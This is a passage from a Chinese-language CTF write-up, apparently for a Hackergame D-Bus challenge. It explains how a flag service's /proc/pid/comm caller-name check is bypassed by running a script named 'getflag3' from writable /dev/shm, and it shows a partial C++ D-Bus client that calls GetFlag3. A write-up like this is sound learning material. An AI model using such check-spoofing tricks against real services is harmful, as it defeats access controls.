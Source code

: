 ```cpp
    return 0;
}

```

再看flag3。这次不用传参数了，但是有一坨看起来像鉴权的代码。问一下gpt，gpt说是获取发送消息进程的pid。后面会通过读`/proc/pid/comm`的方式检查这个文件名是不是`getflag3`。由于我们上传的文件名是executable，所以直接跑是不行的。但熟悉hg infra的同学都知道，虽然根目录挂载的是不可写的，但是`/dev/shm`是有写入权限的。简单测试一下后发现还真的能写，于是我们直接传个bash脚本，写一个`getflag3`然后执行就可以。

```cpp
#include <dbus/dbus.h>
#include <iostream>
#include <fcntl.h>   // for open()
#include <unistd.h>  // for close()
#include <string>
#include <errno.h>
#include <cstring>

void check_and_exit_on_error(DBusError &err) {
    if (dbus_error_is_set(&err)) {
        std::cerr << "D-Bus Error: " << err.name << " - " << err.message << std::endl;
        dbus_error_free(&err);
        exit(1);
    }
}

int main() {
    DBusError err;
    DBusConnection* conn;
    DBusMessage* msg;
    DBusMessage* reply;
    DBusMessageIter args;
    bool stat;
    char* response;

    // 初始化 D-Bus 错误变量
    dbus_error_init(&err);

    // 连接到 system bus
    conn = dbus_bus_get(DBUS_BUS_SYSTEM, &err);
    check_and_exit_on_error(err);
    if (!conn) {
        std::cerr << "Failed to connect to the D-Bus daemon." << std::endl;
        return 1;
    }

    // 创建方法调用消息
    msg = dbus_message_new_method_call(
        "cn.edu.ustc.lug.hack.FlagService",   // 服务名
        "/cn/edu/ustc/lug/hack/FlagService",  // 目标对象路径
        "cn.edu.ustc.lug.hack.FlagService",   // 接口名
        "GetFlag3"                            // 方法名
    );

    if (!msg) {
        std::cerr << "Failed to create message." << std::endl;
        return 1;
    }

    std::cout << "Appending arguments..." << std::endl;

    // 使用 DBUS_TYPE_UNIX_FD 来传递文件描述符
    dbus_message_iter_init_append(msg, &args);
    // if (!dbus_message_iter_append_basic(&args, DBUS_TYPE_UNIX_FD, &pipefd[0])) {
```